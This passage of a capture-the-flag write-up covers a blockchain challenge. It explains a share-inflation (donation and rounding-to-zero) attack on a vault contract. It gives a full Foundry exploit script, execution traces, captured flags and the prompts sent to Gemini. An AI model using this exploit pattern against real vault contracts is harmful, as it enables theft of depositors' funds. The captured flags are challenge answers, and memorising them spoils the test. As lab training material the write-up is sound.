Estimated gas price: 1 gwei

Estimated total gas used for script: 954441

Estimated amount required: 0.000954441 ETH

==========================

##### anvil-hardhat
✅  [Success] Hash: 0x1c09467a02042c210dacab87528bc86142aacc012c25ab901076c364609a7d12
Block: 3
Paid: 0.000185623 ETH (185623 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x46cb1ee6f464830eb287f0216963a4cde829bbd25181d70a819c799755d9d746
Contract Address: 0xd4b1D012F8eB9C85Ac234A42cD7AA6F6255B9C14
Block: 2
Paid: 0.000536962 ETH (536962 gas * 1 gwei)

✅ Sequence #1 on anvil-hardhat | Total Paid: 0.000722585 ETH (722585 gas * avg 1 gwei)
                                                                                                                    

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.

Transactions saved to: /home/lasangna/ctf/bc/convergence/exploit/broadcast/Solve.s.sol/31337/run-latest.json

Sensitive values saved to: /home/lasangna/ctf/bc/convergence/exploit/cache/Solve.s.sol/31337/run-latest.json
```

[image here]

Flag: **`C2C{the_convergence_chall_is_basically_bibibibi}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

This was my first time working on a blockchain challenge, so I was still very unfamiliar with both the terminology and how the system works. For that reason, I relied on Gemini to understand the system design, analyze vulnerabilities, and generate the exploit script.

Some of the prompts I used include:

```
there's these files
.
├── Challenge.sol
└── Setup.sol

what should i analyze first
```

```
how can i get isSolved() to return true?
```

```
create solver script for this challenge
```

Since I relied heavily on Gemini, my methodology for verifying its output was to directly test the suggested results and provide feedback to Gemini until the flag was obtained.

---

# blockchain/nexus

First, I tried to understand the overall challenge flow and identify the **goal**.

In `Setup.sol`, there is the following `isSolved()` function:

```solidity
contract Setup {
    ...
    
    uint256 public constant PLAYER_ESSENCE = 10000 ether;
    uint256 public constant FIRST_ATTUNEMENT = 6000 ether;
    uint256 public constant SECOND_ATTUNEMENT = 9000 ether;
    uint256 public constant ASCENSION_THRESHOLD = 20250 ether;

    ...
    
    function isSolved() external view returns (bool) {
        return essence.balanceOf(player) > ASCENSION_THRESHOLD;
    }
}
```

From analyzing all the provided files, I gathered the following information:

- The `player` starts with **10,000 ether** worth of `Essence` tokens.
- To make `isSolved()` return `true`, the player’s `Essence` balance must exceed the `ASCENSION_THRESHOLD`, which is **20,250 ether**.
- This means the player must find a way to steal or multiply their balance by more than **10,250 ether**.
- A large source of funds exists in `conductRituals()`, where `Setup` mints **15,000 ether** to itself and deposits (`attune`) them into `CrystalNexus` in two stages: 6,000 and 9,000.

I asked Gemini to analyze the files and it identified a vulnerability in `CrystalNexus.sol`.

This system uses a dynamic ratio to calculate how many `crystals` (pool shares) are minted when depositing `Essence`.

In the `essenceToCrystal` function:

```solidity
return (essenceAmount * totalCrystals) / amp;
```

This introduces an **ERC4626 Inflation Attack** (or integer division rounding-to-zero issue). Since Solidity integer division rounds down, if `amp` (the total `Essence` held by the contract) is much larger than `totalCrystals`, a victim can receive **0 crystals** for a deposit.

The **exploit scenario** is as follows:

1. **Initialize `totalCrystals` as small as possible**

   Call `nexus.attune(1)` using **1 wei**.  
   (`totalCrystals = 1`, `amp = 1`)

2. **Artificially inflate `amp`**

   Call:
   ```solidity
   essence.transfer(address(nexus), 6000 ether);
   ```
   The player still keeps ~4,000 ether safely in their wallet, while `amp` becomes `6000 ether + 1 wei`.

3. **Exploit the victim (Setup contract)**

   Call `setup.conductRituals()`:
   - First deposit (6,000 ether):  
     `(6000 * 1) / 6000.000...01 = 0` → Setup receives **0 crystals**
   - Second deposit (9,000 ether):  
     `(9000 * 1) / 12000.000...01 = 0` → Setup receives **0 crystals**
   - The full **15,000 ether** is added to the pool for free.  
     `amp` becomes ~21,000 ether.

4. **Extract profit**

   Call:
   ```solidity
   nexus.dissolve(1, player);
   ```
   You redeem your 1 wei crystal for ~21,000 ether.  
   After the **22% friction fee**, you receive **16,380 ether**.

5. **Win condition**

   Remaining wallet balance (~4,000) + drained amount (16,380)  
   = **20,380 ether**, which is greater than **20,250 ether**.

## Exploit

First, initialize a Foundry project and move the Solidity files into `src/`:

```bash
forge init exploit --empty
mv CrystalNexus.sol Essence.sol Setup.sol exploit/src/
```

Next, export the instance credentials as environment variables:

```bash
export RPC_URL="..."
export PRIVKEY="0x..."
export SETUP_CONTRACT_ADDR="..."
export WALLET_ADDR="..."
```

> **Note:** Add the `0x` prefix to `PRIVKEY` because the exploit script uses `vm.envUint`, which requires a hex string starting with `0x`.

Then, I asked Gemini to generate `ExploitScript.s.sol` inside `exploit/script/`:

Below is the content of `ExploitScript.s.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Setup.sol";   
import "../src/CrystalNexus.sol";
import "../src/Essence.sol";

contract ExploitScript is Script {
    function run() external {
        // Load credentials from environment variables
        uint256 attackerPrivateKey = vm.envUint("PRIVKEY");
        address attackerWallet = vm.addr(attackerPrivateKey);
        address setupAddress = vm.envAddress("SETUP_CONTRACT_ADDR");

        // Initialize contract instances
        Setup targetSetup = Setup(setupAddress);
        CrystalNexus targetNexus = targetSetup.nexus();
        Essence targetEssence = targetSetup.essence();

        vm.startBroadcast(attackerPrivateKey);

        console.log("Initial Essence Balance:", targetEssence.balanceOf(attackerWallet) / 1 ether);

        // Step 1: Approve targetNexus to spend our targetEssence
        targetEssence.approve(address(targetNexus), type(uint256).max);

        // Step 2: Attune with 1 wei to get 1 wei of totalCrystals
        targetNexus.attune(1);
        console.log("Attuned 1 wei. Total Crystals:", targetNexus.totalCrystals());

        // Step 3: Inflate the amplitude by transferring 6000 ether directly to targetNexus
        targetEssence.transfer(address(targetNexus), 6000 ether);
        console.log("Transferred 6000 ether. Amplitude:", targetNexus.amplitude() / 1 ether);

        // Step 4: Trigger targetSetup to deposit 15000 ether
        targetSetup.conductRituals();
        console.log("Rituals conducted. Nexus Amplitude:", targetNexus.amplitude() / 1 ether);

        // Step 5: Dissolve our 1 wei of totalCrystals to drain the pool
        targetNexus.dissolve(1, attackerWallet);

        // Verify the win condition
        uint256 finalBalance = targetEssence.balanceOf(attackerWallet);
        console.log("Final Essence Balance:", finalBalance / 1 ether);
        
        bool isSolvedStatus = targetSetup.isSolved();
        console.log("Is Solved?", isSolvedStatus);

        vm.stopBroadcast();
    }
}
```

Execute the exploit:

```bash
forge script script/ExploitScript.s.sol:ExploitScript \
  --rpc-url $RPC_URL \
  --broadcast \
  --legacy \
  -vvvv
```

Exploit output:

```bash
lasangna@sandbox:~/ctf/bc/nexus/exploit$ forge script script/ExploitScript.s.sol:ExploitScript \
  --rpc-url $RPC_URL \
  --broadcast \
  --legacy \
  -vvvv
[⠒] Compiling...
No files changed, compilation skipped
Traces:
  [309497] ExploitScript::run()
    ├─ [0] VM::envUint("PRIVKEY") [staticcall]
    │   └─ ← [Return] <env var value>
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c
    ├─ [0] VM::envAddress("SETUP_CONTRACT_ADDR") [staticcall]
    │   └─ ← [Return] <env var value>
    ├─ [2726] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::nexus() [staticcall]
    │   └─ ← [Return] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9
    ├─ [2770] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::essence() [staticcall]
    │   └─ ← [Return] 0x751C2d53B5796E6C578A855181C61275Ce248301
    ├─ [0] VM::startBroadcast(<pk>)
    │   └─ ← [Return]
    ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c) [staticcall]
    │   └─ ← [Return] 10000000000000000000000 [1e22]
    ├─ [0] console::log("Initial Essence Balance:", 10000 [1e4]) [staticcall]
    │   └─ ← [Stop]
    ├─ [25078] 0x751C2d53B5796E6C578A855181C61275Ce248301::approve(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   ├─ emit Approval(owner: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, spender: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   └─ ← [Return] true
    ├─ [103938] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(1)
    │   ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 0
    │   ├─ [27333] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 1)
    │   │   ├─ emit Transfer(from: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 1)
    │   │   └─ ← [Return] true
    │   ├─ emit Attunement(entity: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, essence: 1, crystals: 1)
    │   └─ ← [Return] 1
    ├─ [468] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::totalCrystals() [staticcall]
    │   └─ ← [Return] 1
    ├─ [0] console::log("Attuned 1 wei. Total Crystals:", 1) [staticcall]
    │   └─ ← [Stop]
    ├─ [3829] 0x751C2d53B5796E6C578A855181C61275Ce248301::transfer(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 6000000000000000000000 [6e21])
    │   ├─ emit Transfer(from: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 6000000000000000000000 [6e21])
    │   └─ ← [Return] true
    ├─ [2149] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::amplitude() [staticcall]
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 6000000000000000000001 [6e21]
    │   └─ ← [Return] 6000000000000000000001 [6e21]
    ├─ [0] console::log("Transferred 6000 ether. Amplitude:", 6000) [staticcall]
    │   └─ ← [Stop]
    ├─ [116474] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::conductRituals()
    │   ├─ [32404] 0x751C2d53B5796E6C578A855181C61275Ce248301::mint(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 15000000000000000000000 [1.5e22])
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, value: 15000000000000000000000 [1.5e22])
    │   │   └─ ← [Stop]
    │   ├─ [25078] 0x751C2d53B5796E6C578A855181C61275Ce248301::approve(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   │   ├─ emit Approval(owner: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, spender: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   │   └─ ← [Return] true
    │   ├─ [36889] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(6000000000000000000000 [6e21])
    │   │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   │   └─ ← [Return] 6000000000000000000001 [6e21]
    │   │   ├─ [4633] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 6000000000000000000000 [6e21])
    │   │   │   ├─ emit Transfer(from: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 6000000000000000000000 [6e21])
    │   │   │   └─ ← [Return] true
    │   │   ├─ [212] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::onCrystalReceived(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 6000000000000000000000 [6e21], 0)
    │   │   │   └─ ← [Revert] EvmError: Revert
    │   │   ├─ emit Attunement(entity: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, essence: 6000000000000000000000 [6e21], crystals: 0)
    │   │   └─ ← [Return] 0
    │   ├─ [12989] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(9000000000000000000000 [9e21])
    │   │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   │   └─ ← [Return] 12000000000000000000001 [1.2e22]
    │   │   ├─ [4633] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 9000000000000000000000 [9e21])
    │   │   │   ├─ emit Transfer(from: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 9000000000000000000000 [9e21])
    │   │   │   └─ ← [Return] true
    │   │   ├─ [212] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::onCrystalReceived(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 9000000000000000000000 [9e21], 0)
    │   │   │   └─ ← [Revert] EvmError: Revert
    │   │   ├─ emit Attunement(entity: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, essence: 9000000000000000000000 [9e21], crystals: 0)
    │   │   └─ ← [Return] 0
    │   └─ ← [Stop]
    ├─ [2149] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::amplitude() [staticcall]
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 21000000000000000000001 [2.1e22]
    │   └─ ← [Return] 21000000000000000000001 [2.1e22]
    ├─ [0] console::log("Rituals conducted. Nexus Amplitude:", 21000 [2.1e4]) [staticcall]
    │   └─ ← [Stop]
    ├─ [13762] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::dissolve(1, 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c)
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 21000000000000000000001 [2.1e22]
    │   ├─ [3829] 0x751C2d53B5796E6C578A855181C61275Ce248301::transfer(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, 16380000000000000000001 [1.638e22])
    │   │   ├─ emit Transfer(from: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, to: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, value: 16380000000000000000001 [1.638e22])
    │   │   └─ ← [Return] true
    │   ├─ emit Dissolution(entity: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, crystals: 1, essence: 16380000000000000000001 [1.638e22])
    │   └─ ← [Return] 16380000000000000000001 [1.638e22]
    ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c) [staticcall]
    │   └─ ← [Return] 20380000000000000000000 [2.038e22]
    ├─ [0] console::log("Final Essence Balance:", 20380 [2.038e4]) [staticcall]
    │   └─ ← [Stop]
    ├─ [2124] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::isSolved() [staticcall]
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c) [staticcall]
    │   │   └─ ← [Return] 20380000000000000000000 [2.038e22]
    │   └─ ← [Return] true
    ├─ [0] console::log("Is Solved?", true) [staticcall]
    │   └─ ← [Stop]
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return]
    └─ ← [Stop]


Script ran successfully.

== Logs ==
  Initial Essence Balance: 10000
  Attuned 1 wei. Total Crystals: 1
  Transferred 6000 ether. Amplitude: 6000
  Rituals conducted. Nexus Amplitude: 21000
  Final Essence Balance: 20380
  Is Solved? true

## Setting up 1 EVM.
==========================
Simulated On-chain Traces:

  [25078] 0x751C2d53B5796E6C578A855181C61275Ce248301::approve(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    ├─ emit Approval(owner: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, spender: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    └─ ← [Return] true

  [113238] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(1)
    ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   └─ ← [Return] 0
    ├─ [34133] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 1)
    │   ├─ emit Transfer(from: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 1)
    │   └─ ← [Return] true
    ├─ emit Attunement(entity: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, essence: 1, crystals: 1)
    └─ ← [Return] 1

  [13429] 0x751C2d53B5796E6C578A855181C61275Ce248301::transfer(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 6000000000000000000000 [6e21])
    ├─ emit Transfer(from: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 6000000000000000000000 [6e21])
    └─ ← [Return] true

  [134274] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::conductRituals()
    ├─ [32404] 0x751C2d53B5796E6C578A855181C61275Ce248301::mint(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 15000000000000000000000 [1.5e22])
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, value: 15000000000000000000000 [1.5e22])
    │   └─ ← [Stop]
    ├─ [25078] 0x751C2d53B5796E6C578A855181C61275Ce248301::approve(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   ├─ emit Approval(owner: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, spender: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   └─ ← [Return] true
    ├─ [45689] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(6000000000000000000000 [6e21])
    │   ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 6000000000000000000001 [6e21]
    │   ├─ [7433] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 6000000000000000000000 [6e21])
    │   │   ├─ emit Transfer(from: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 6000000000000000000000 [6e21])
    │   │   └─ ← [Return] true
    │   ├─ [212] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::onCrystalReceived(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 6000000000000000000000 [6e21], 0)
    │   │   └─ ← [Revert] EvmError: Revert
    │   ├─ emit Attunement(entity: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, essence: 6000000000000000000000 [6e21], crystals: 0)
    │   └─ ← [Return] 0
    ├─ [12989] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(9000000000000000000000 [9e21])
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 12000000000000000000001 [1.2e22]
    │   ├─ [4633] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 9000000000000000000000 [9e21])
    │   │   ├─ emit Transfer(from: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 9000000000000000000000 [9e21])
    │   │   └─ ← [Return] true
    │   ├─ [212] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::onCrystalReceived(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 9000000000000000000000 [9e21], 0)
    │   │   └─ ← [Revert] EvmError: Revert
    │   ├─ emit Attunement(entity: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, essence: 9000000000000000000000 [9e21], crystals: 0)
    │   └─ ← [Return] 0
    └─ ← [Stop]

  [37462] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::dissolve(1, 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c)
    ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   └─ ← [Return] 21000000000000000000001 [2.1e22]
    ├─ [11429] 0x751C2d53B5796E6C578A855181C61275Ce248301::transfer(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, 16380000000000000000001 [1.638e22])
    │   ├─ emit Transfer(from: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, to: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, value: 16380000000000000000001 [1.638e22])
    │   └─ ← [Return] true
    ├─ emit Dissolution(entity: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, crystals: 1, essence: 16380000000000000000001 [1.638e22])
    └─ ← [Return] 16380000000000000000001 [1.638e22]


==========================

Chain 31337

Estimated gas price: 1 gwei

Estimated total gas used for script: 569397

Estimated amount required: 0.000569397 ETH

==========================

##### anvil-hardhat
✅  [Success] Hash: 0x6ae4ad477c378c38045a21d960f079066a52255d9d6b869a6da4b10e665bcfb4
Block: 4
Paid: 0.000035085 ETH (35085 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x6cfc74465b9885b8e150b3906abd408117a560046fe4ab4a2646c38570fa3754
Block: 6
Paid: 0.000049434 ETH (49434 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x80bd353244fbd719444c0678581968b67fbb1c9206310ec6243927441a7299ed
Block: 3
Paid: 0.000134442 ETH (134442 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x0561e33bcc11b6904b4f41bafd63810186ad949968b9368e2483cfd2eb2b5f32
Block: 2
Paid: 0.000047022 ETH (47022 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x3294392cdcd000674889d6d9a72e80ca1411462e06b7535700e97e9fbea3fc83
Block: 5
Paid: 0.000135438 ETH (135438 gas * 1 gwei)

✅ Sequence #1 on anvil-hardhat | Total Paid: 0.000401421 ETH (401421 gas * avg 1 gwei)
                                                                                

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.

Transactions saved to: /home/lasangna/ctf/bc/nexus/exploit/broadcast/ExploitScript.s.sol/31337/run-latest.json

Sensitive values saved to: /home/lasangna/ctf/bc/nexus/exploit/cache/ExploitScript.s.sol/31337/run-latest.json
```

[image here]

Flag: **`C2C{the_essence_of_nexus_is_donation_hahahaha}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

This was my first time working on a blockchain challenge, so I was still unfamiliar with many of the concepts and mechanics. I used Gemini to learn how the system works, analyze vulnerabilities, and generate the exploit script.

Some of the prompts I used were:

```
there's these files
 .
├── CrystalNexus.sol
├── Essence.sol
└── Setup.sol 

what should i analyze first
```

```
how can i get isSolved() to return true?
```

```
create solver script for this challenge
```

Since I relied heavily on Gemini, my methodology for verifying its output was to directly test the generated results and iterate based on the observed behavior until the flag was obtained.
